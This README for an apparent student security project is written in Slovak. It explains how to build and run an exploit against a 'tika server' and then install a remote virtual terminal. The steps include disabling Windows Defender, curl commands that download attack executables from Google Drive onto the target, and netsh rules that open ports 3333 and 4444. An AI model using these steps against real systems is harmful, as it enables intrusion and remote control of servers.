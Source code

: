 # IC1-projekt

## Obsah repozitara
V repozitary su 3 zlozky :
### build
Tu sa nachadza iba subor `build.bat` ktory zkompiluje vsetky zdrojaky do 4 exe suborov :
1. **client_side** - cast virtualneho terminalu ktora sa spusta na klientovy (utocnik) ked uz boli otvorene porty pomocou exploitu.
2. **server_side** - cast virtualneho terminalu ktora sa spusta na servery ma 2 argumenty *[ip_addr_ca, ip_addr_client]*. 
3. **exploit** - subor ktory utoci na tika server, spusta sa na klientovy.
4. **CertificateAuthority** - Certifikacna autorita ktora sluzy ako tretia strana pri sifrovanej komunikacii medzi sererom a klientom.
### exploit 
V tejto zlozke sa nachadza subor `commands_list.txt` v ktorom su napisane 2 prikazy na otvorenie portov na serveri pre komunikaciu z CA (4444) a klientom (3333).
V subore `exploit.py` su zdrojove kody pre exploit.exe
### virtual_cmd
V tejto zlozke su zdrojove kody pre sifrovanu komunikaciu v zlozke `communication` a subory su zdrojove kody pre client_side.exe a server_side.exe respektivne.

## Ako spustit exploit 
- pred startom je potrebne vypnut windows defender a windows firewall
- ako prove si musime stiahnut potrebne subory, v subore `commands_list.txt` sa nachadazju linky na 3. potrebne .exe subory 
    -   `curl -L -o exploit.exe "https://drive.google.com/uc?export=download&id=1JLoM4mb9r6DXaW-wq8X2vu4hISk3cOiE"`
    -   `curl -L -o client_side.exe "https://drive.google.com/uc?export=download&id=1YWW_w4_0Yah4jvRlaDiPJfQ6so3_kt4N"`
    -   `curl -L -o CertificateAuthority.exe "https://drive.google.com/uc?export=download&id=1RfyO5BhZNs_CN3Slr-IC_vFiHayp_JUs"`
- exploit.exe je potrebne spustit na utocnikovej strane v cmd z pravami administratora
- po zadani IP adresy je mozne zadavat prikazy zo suboru commands_list a to prve dve : 
    -   `netsh advfirewall firewall add rule name="Allow port 3333" dir=in action=allow protocol=TCP localport=3333`
    -   `netsh advfirewall firewall add rule name="Allow port 4444" dir=in action=allow protocol=TCP localport=4444`
- dalej je potrebne spustit CertificateAuthority.exe v novom terminaly z administrativnimy pravami
- v terminaly kde je spusteny exploit.exe je potrebne stiahnut subor server_side.exe
    -   `curl -L -o server_side.exe "https://drive.google.com/uc?export=download&id=1MWQaEGF5sdziP5qQR7zLXzuNJT_CAgcj"` 
- tento subor nasledovne stiahneme z prikazom server_side.exe *[ip_adresa_klienta]* *[ip_adresa_klienta]*
- potom spustime na klientovy subor client_side.exe a zvolime ip adresu CA *(localhost v tomto pripade)* a serveru
- ak vsetko prebehlo ako malu virtualne cmd je inicializovane a je mozne sa pohybovat v adresarovej strukture servera a zadavat prikazy


